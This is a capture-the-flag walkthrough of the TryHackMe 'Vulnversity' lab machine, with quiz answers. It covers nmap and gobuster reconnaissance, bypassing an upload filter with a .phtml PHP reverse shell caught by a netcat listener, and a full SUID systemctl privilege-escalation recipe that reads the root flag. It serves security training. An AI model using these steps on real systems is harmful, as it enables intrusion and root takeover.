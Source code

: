 ```yaml
---
title: TryHackMe - Vulnversity
layout: post
categories:
- TryHackMe
tag:
- recon,
- privesc,
- webappsec
image: "/assets/img/vulnversity.png"
image_alt: vulversity
---
```


This is an easy CTF. Let's start.

<br>

## 1. Deploy the machine 

Connect to our network and deploy this machine. If you are unsure on how to get connected, complete the OpenVPN room first.

<br>

---

<br>

## 2. Reconnaissance  

Now that you’ve found the code for the backdoor, it’s time to analyse it.
Gather information about this machine using a network scanning tool called `nmap`.

<br>

### 2.1 Scan the box, how many ports are open?

Let's find out how many ports are open on the target with a simple `nmap` scan.

```
$ nmap -sSV 10.10.56.244
```

![nmap](/assets/img/tryhackme/vulnversity/nmap.png)

**Answer: `6`**

<br>

### 2.2 What version of the squid proxy is running on the machine?

As you may have noticed from the previous question, squid proxy is http-proxy running on port `3128/tcp`.

**Answer: `3.5.12`**

<br>

### 2.3 How many ports will nmap scan if the flag -p-400 was used?

**Answer: `400`**

<br>

### 2.4 Using the nmap flag -n what will it not resolve?

**Answer: `DNS`**

<br>

### 2.5 What is the most likely operating system this machine is running?

**Answer: `ubuntu`**

<br>

### 2.6 What port is the web server running on?

**Answer: `3333`**

<br>

---

<br>

## 3. Locating directories using GoBuster 

Using a fast directory discovery tool called GoBuster you will locate a directory that you can use to upload a shell to.

<br>

### 3.1 What is the directory that has an upload form page?

Now, let's do a directory scan using `gobuster`.

```
`$ gobuster dir -u http://10.10.56.244:3333/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/img/tryhackme/vulnversity/gobuster.png)

**Answer: `/internal/`**

<br>

---

<br>

## 4. Compromise the webserver   

Now you have found a form to upload files, we can leverage this to upload and execute our payload that will lead to compromising the web server.

<br>

### 4.1 What common file type, which you'd want to upload to exploit the server, is blocked? Try a couple to find out.

I downloaded and tried pentest monkey's php-reverse-shell.php file, but it didn't upload.
[php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

![error](/assets/img/tryhackme/vulnversity/error.png)

**Answer: `.php`**

<br>

### 4.2 Run this attack, what extension is allowed?

Since the .php extension does not work here, we need to try other php extensions instead. If you want, you can do it manually or by using burp suite as tryhackme explained, I don't see the need to use burp suite for now. 

![success](/assets/img/tryhackme/vulnversity/success.png)

**Answer: `.phtml`**

<br>

### 4.3 What is the name of the user who manages the webserver?

Now we edit the reverse shell (we adjust the ip and port parts according to ourselves) and upload it. 

![set](/assets/img/tryhackme/vulnversity/set.png)

Then we open a listener for the port we wrote in the shell using `netcat`.

```
$ nc -nlvp 4444
```

Then we visit the shell that we uploaded to the target site. 

```
$ http://10.10.56.244:3333/internal/uploads/shell.phtml
```

And we are inside.

![in](/assets/img/tryhackme/vulnversity/in.png)

Now, to find out who the user is, we go to the `/home` directory and list the files using the `ls -la` command. There should be a folder with the user's name here.

![bill](/assets/img/tryhackme/vulnversity/bill.png)

**Answer: `bill`**

<br>

### 4.4 What is the user flag?

Now we open the `user.txt` owned by the user, Bill.

```
$ cat /home/bill/user.txt
```

![user-flag](/assets/img/tryhackme/vulnversity/user-flag.png)

<br>

---

<br>

## 5. Privilege Escalation    

Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).

<br>

### 5.1 On the system, search for all SUID files. What file stands out?

_Hint: Use the command: find / -user root -perm -4000 -print 2>/dev/null_

![find](/assets/img/tryhackme/vulnversity/find.png)

**Answer: `/bin/systemctl`**

<br>

### 5.2 Become root and get the last flag (/root/root.txt).

_Hint: /bin/systemctl_

Let's enter the following codes one by one to raise privileges and access root.txt.

```
$ cat > /tmp/flag.service << EOF
> [Service]
> ExecStart=/bin/bash -c "cat /root/root.txt > /tmp/flag.txt"
> [Install]
> WantedBy=multi-user.target
> EOF
$ /bin/systemctl link /tmp/flag.service
$ /bin/systemctl enable --now /tmp/flag.service
$ cat /tmp/flag.txt 
```

![root-flag](/assets/img/tryhackme/vulnversity/root-flag.png)

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
